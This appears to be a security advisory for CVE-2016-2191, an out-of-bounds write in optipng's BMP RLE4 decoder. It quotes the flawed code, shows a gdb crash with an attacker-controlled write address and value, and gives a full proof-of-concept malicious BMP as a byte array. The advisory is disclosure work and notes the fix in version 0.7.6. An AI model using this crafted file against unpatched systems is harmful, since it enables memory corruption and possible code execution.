 #+title: CVE-2016-2191: optipng: invalid write
#+author: Hans Jerry Illikainen
#+email: hji@dyntopia.com

An invalid write may occur in optipng before version 0.7.6 while
processing bitmap images due to ~crt_row~ being (inc|dec)remented
without any boundary checking when encountering delta escapes.

optipng-0.7.5/src/pngxtern/pngxrbmp.c:
#+begin_src c
210 static size_t
211 bmp_read_rows(png_bytepp begin_row, png_bytepp end_row, size_t row_size,
212               unsigned int compression, FILE *stream)
213 {
...
272       crt_row = begin_row;
273       for ( ; ; )
274       {
275          ch = getc(stream); b1 = (unsigned int)ch;
276          ch = getc(stream); b2 = (unsigned int)ch;
277          if (ch == EOF)
278             break;
279          if (b1 == 0)  /* escape */
280          {
...
307             else if (b2 == 2)  /* delta */
308             {
309                ch = getc(stream); b1 = (unsigned int)ch;  /* horiz. offset */
310                ch = getc(stream); b2 = (unsigned int)ch;  /* vert. offset */
...
314                if (b2 > (size_t)((end_row - crt_row) * inc))
315                   b2 = (unsigned int)((end_row - crt_row) * inc);
316                for ( ; b2 > 0; --b2)
317                {
...
319                   crt_row += inc;
...
322                }
...
324             }
325             else  /* b2 >= 3 bytes in absolute mode */
326             {
327                len = (b2 <= endn - crtn) ? b2 : (unsigned int)(endn - crtn);
328                if (bmp_fread_fn(*crt_row, crtn, len, stream) != len)
329                   break;
330                crtn += len;
331             }
332          }
...
352 }
#+end_src

After ~crt_row~ has moved OOB, an invalid write may be triggered with
~bmp_fread_fn()~ in absolute mode:

#+begin_src sh
$ gdb --args optipng oob.bmp
(gdb) r
 ** Processing: oob.bmp

Program received signal SIGSEGV, Segmentation fault.
__memcpy_sse2 () at ../sysdeps/x86_64/multiarch/../memcpy.S:96
96  ../sysdeps/x86_64/multiarch/../memcpy.S: No such file or directory.

(gdb) bt
#0  __memcpy_sse2 () at ../sysdeps/x86_64/multiarch/../memcpy.S:96
#1  0x00007ffff7a89003 in __GI__IO_file_xsgetn (fp=0x64a010, data=<optimized out>, n=4) at fileops.c:1371
#2  0x00007ffff7a7e5f0 in __GI__IO_fread (buf=<optimized out>, size=1, count=4, fp=0x64a010) at iofread.c:42
#3  0x000000000040b632 in bmp_rle4_fread (ptr=0x4141 <error: Cannot access memory at address 0x4141>, offset=0, len=8, stream=0x64a010) at pngxrbmp.c:170
#4  0x000000000040baf6 in bmp_read_rows (begin_row=0x64e668, end_row=0x64a538, row_size=4, compression=2, stream=0x64a010) at pngxrbmp.c:328
#5  0x000000000040cb0e in pngx_read_bmp (png_ptr=0x64a240, info_ptr=0x64a4b0, stream=0x64a010) at pngxrbmp.c:724
#6  0x000000000040b352 in pngx_read_image (png_ptr=0x64a240, info_ptr=0x64a4b0, fmt_name_ptr=0x7fffffffbf10, fmt_long_name_ptr=0x0) at pngxread.c:130
#7  0x00000000004043cc in opng_read_file (infile=0x64a010) at optim.c:939
#8  0x000000000040586a in opng_optimize_impl (infile_name=0x7fffffffe86f "oob.bmp") at optim.c:1503
#9  0x0000000000406749 in opng_optimize (infile_name=0x7fffffffe86f "oob.bmp") at optim.c:1853
#10 0x0000000000402bf0 in process_files (argc=2, argv=0x7fffffffe638) at optipng.c:941
#11 0x0000000000402cb5 in main (argc=2, argv=0x7fffffffe638) at optipng.c:975

(gdb) x/i $rip
=> 0x7ffff7aa3427 <__memcpy_sse2+55 at ../sysdeps/x86_64/multiarch/../memcpy.S:96>: mov    %ecx,(%rdi)
(gdb) p/x $ecx
$1 = 0x11223344
(gdb) p/x $rdi
$2 = 0x4141
(gdb)
#+end_src


* oob.bmp
#+begin_src c
unsigned char bmp[] = {
    /* bmp header */
    0x42, 0x4d,             /* BM */
    0x00, 0x00, 0x00, 0x00, /* bmp size */
    0x00, 0x00,             /* reserved */
    0x00, 0x00,             /* reserved */
    0x7a, 0x00, 0x00, 0x00, /* offset */

    /* dib header */
    0x6c, 0x00, 0x00, 0x00, /* header_size (BITMAPV4HEADER) */
    0x01, 0x00, 0x00, 0x00, /* width */
    0x26, 0x08, 0x00, 0x00, /* height */
    0x01, 0x00,             /* color planes */
    0x04, 0x00,             /* bits per pixel */
    0x02, 0x00, 0x00, 0x00, /* compression (RLE4) */
    0x00, 0x00, 0x00, 0x00, /* size of bitmap */
    0x00, 0x00, 0x00, 0x00, /* horizontal resolution */
    0x00, 0x00, 0x00, 0x00, /* vertical resolution */
    0x01, 0x00, 0x00, 0x00, /* number of colors */
    0x00, 0x00, 0x00, 0x00, /* number of important colors */
    0x00, 0x00, 0x00, 0x00, /* red mask */
    0x00, 0x00, 0x00, 0x00, /* green mask */
    0x00, 0x00, 0x00, 0x00, /* blue mask */
    0x00, 0x00, 0x00, 0x00, /* alpha mask */
    0x00, 0x00, 0x00, 0x00, /* color space type */
    0x00, 0x00, 0x00, 0x00, /* x coordinate of red endpoint */
    0x00, 0x00, 0x00, 0x00, /* y coordinate of red endpoint */
    0x00, 0x00, 0x00, 0x00, /* z coordinate of red endpoint */
    0x00, 0x00, 0x00, 0x00, /* x coordinate of green endpoint */
    0x00, 0x00, 0x00, 0x00, /* y coordinate of green endpoint */
    0x00, 0x00, 0x00, 0x00, /* z coordinate of green endpoint */
    0x00, 0x00, 0x00, 0x00, /* x coordinate of blue endpoint */
    0x00, 0x00, 0x00, 0x00, /* y coordinate of blue endpoint */
    0x00, 0x00, 0x00, 0x00, /* z coordinate of blue endpoint */
    0x00, 0x00, 0x00, 0x00, /* red gamma */
    0x00, 0x00, 0x00, 0x00, /* green gamma */
    0x00, 0x00, 0x00, 0x00, /* blue gamma */

    /*
     * delta escape (0x00, 0x02), b1, b2
     *
     * The number of delta escapes required for crt_row to be moved
     * beyond its allocated chunk depends on the image height.
     *
     * b1 is relevant in the last escape if the value at *crt_row is a
     * non-writable address due to:
     *
     * dcrtn = (b1 < endn - crtn) ? (crtn + b1) : endn;
     * [...]
     * for ( ; b2 > 0; --b2)
     * {
     *     [...]
     *     crt_row += inc;
     *     crtn = 0
     *     [...]
     * }
     * bmp_memset_fn(*crt_row, crtn, 0, dcrtn - crtn);
     *
     * For RLE4-encoded data, bmp_rle4_memset() bails if dcrtn - crtn == 0
     */
    0x00, 0x02, 0x11, 0xff,
    0x00, 0x02, 0x11, 0xff,
    0x00, 0x02, 0x11, 0xff,
    0x00, 0x02, 0x11, 0xff,
    0x00, 0x02, 0x11, 0xff,
    0x00, 0x02, 0x11, 0xff,
    0x00, 0x02, 0x11, 0xff,
    0x00, 0x02, 0x11, 0xff,
    0x00, 0x02, 0x00, 0xff,

    /*
     * absolute mode (0x00, 0x03..0xff) followed by the value that's
     * bmp_fread_fn() to *crt_row
     */
    0x00, 0xff, 0x44, 0x33, 0x22, 0x11
};
#+end_src


* Solution
This issue has been assigned CVE-2016-2191 and is fixed in optipng
0.7.6.

